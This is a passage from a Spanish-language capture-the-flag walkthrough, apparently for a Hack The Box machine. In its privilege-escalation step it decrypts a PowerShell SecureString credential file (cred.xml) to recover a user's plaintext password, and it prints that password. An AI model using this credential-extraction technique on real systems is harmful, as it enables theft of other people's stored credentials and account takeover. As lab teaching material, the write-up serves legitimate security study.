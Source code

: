 ## Privilege Escalation

### Decrypt PowerShell Secure String Password (Shell as Tom)

Revisando el directorio (_C:\Users\nico\Desktop_), verificamos que nos encontramos con un archivo XML el cual contiene supuestamente las credenciales del usuario (Tom@htb.local).

La contraseña se encuentra en formato SecureString, por lo tanto, deberemos de desencriptarla para visualizarla en texto plano.

```powershell
dir

type cred.xml
```

<figure><img src="../../../.gitbook/assets/3352_vmware_RalEqzOnjf.png" alt="" width="563"><figcaption></figcaption></figure>

Usamos PowerShell para importar credenciales desde un archivo `cred.xml` con `Import-Clixml`, extraer la contraseña en texto plano usando `$cred.GetNetworkCredential().Password` y mostrarla en la consola con `Write-Output`.

Verificamos que la contraseña en texto plano es: _1ts-mag1c!!!_

```powershell
$cred = Import-Clixml -Path "C:\Users\nico\Desktop\cred.xml"

$plainPassword = $cred.GetNetworkCredential().Password

Write-Output $plainPassword
```
